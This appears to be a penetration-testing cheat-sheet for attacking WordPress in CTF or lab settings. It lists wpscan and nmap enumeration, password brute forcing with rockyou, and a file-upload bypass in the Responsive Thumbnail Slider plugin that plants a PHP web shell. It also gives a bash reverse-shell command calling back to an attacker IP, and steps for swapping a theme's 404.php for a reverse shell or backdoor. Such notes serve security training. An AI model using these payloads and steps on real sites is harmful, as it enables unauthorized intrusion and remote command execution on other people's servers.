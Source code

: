 # WordPress

## Enumeration

### Interesting Files

* wp-content
* wp-content/plugins
  * Check this directory even if `wpscan` doesn't identify any installed plugin
    * May not work though - check sources code of blog pages
* wp-admin
* wp-config.php
* wp-trackback.php
* wp-login.php

```
-rwxr-xr-x  1 www-data www-data   405 Feb  6  2020 index.php
-rwxr-xr-x  1 www-data www-data 19915 Jan  1  2021 license.txt
-rwxr-xr-x  1 www-data www-data  7346 Sep 30 00:41 readme.html
-rwxr-xr-x  1 www-data www-data  7165 Jan 21  2021 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Nov 10 14:18 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2328 Feb 17  2021 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  3769 Nov  8 17:01 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 Feb  9 22:51 wp-content
-rwxr-xr-x  1 www-data www-data  3939 Jul 30  2020 wp-cron.php
drwxr-xr-x 25 www-data www-data 16384 Nov 10 14:18 wp-includes
-rwxr-xr-x  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rwxr-xr-x  1 www-data www-data  3900 May 15  2021 wp-load.php
-rwxr-xr-x  1 www-data www-data 45463 Apr  6  2021 wp-login.php
-rwxr-xr-x  1 www-data www-data  8509 Apr 14  2020 wp-mail.php
-rwxr-xr-x  1 www-data www-data 22297 Jun  1  2021 wp-settings.php
-rwxr-xr-x  1 www-data www-data 31693 May  7  2021 wp-signup.php
-rwxr-xr-x  1 www-data www-data  4747 Oct  8  2020 wp-trackback.php
-rwxr-xr-x  1 www-data www-data  3236 Jun  8  2020 xmlrpc.php
```

### Scanning

#### nmap

```bash
nmap -sV --script=http-wordpress-brute.nse,http-wordpress-enum.nse,http-wordpress-users -p80 <IP>

```

#### wpscan

```bash
# Basic Scan
wpscan --url http://10.10.248.119 -o wpscan.log
# Enumerate vulnerable plugins, themes, and users
wpscan --url http://10.10.248.119 -e vp,vt,u -o wpscan.log --api-token <>
# Brute Forcing Login
wpscan --url http://10.10.128.156/ -U users.txt -P /usr/share/wordlists/rockyou.txt -vv
```

## Exploitation

### Plugins

* Can add modified WordPress plugin header to the top of the reverse shell file
* Upload reverse shell plugin as a zip file

#### Responsive Thumbnail Slider

* Using 'php/webapps/37998.txt' we can follow the steps from within the file.
* Responsive Thumbnail Slider --> Manage Images --> Add New
* Create a file called shell.php.jpg with the below contents:
  * `<?php system($_GET["cmd"]) ?>`
* With Burp Intercept on, upload the the file and send the request to Repeater
  * Modify the filename from shell.php.jpg to shell.php and send the modified request
* Turn off Intercept and back on the web page it should show "New image added successfully"
* There are two new entries of images (initial request and repeater request)
* Clicking on the webshell entry bring us to a new page and gives the link to the image
* Clicking the link brings us to the file and can now get command execution
  * By appending `?cmd=id`
* Now to get a reverse shell by updating the payload value
  * `?cmd=/bin/bash -c "bash -i>& /dev/tcp/<IP>/4444 0>&1"`
  * Note: It may have to be URL encoded

### Themes Templates

#### 404.php

* Edit the 404.php template to include a reverse shell payload
* Appearance --> Theme Editor
* Select 404 Template from the right side pane
* Linux
  * Copy the contents of /usr/share/webshells/php/php-reverse-shell.php and replace the contents in the 404.php template
    * Update the attacker machine IP and port as necessary
    * Then click on the Update File button
* Windows
  * Copy the contents of /usr/share/webshells/php/qsd-php-backdoor.php and replace the contents in the 404.php template
    * Generate an msfvenom payload and upload it to a directory
    * Execute payload from main page calling the absolute path
* Start a netcat listener&#x20;
  * Try executing by visiting a page that doesn't exist
    * `http://demo.ine.local/i-dont-exist`
      * And a reverse shell connection is made
  * Try navigating to the 404.php file location
    * http://\<IP>/wordpress/404.php

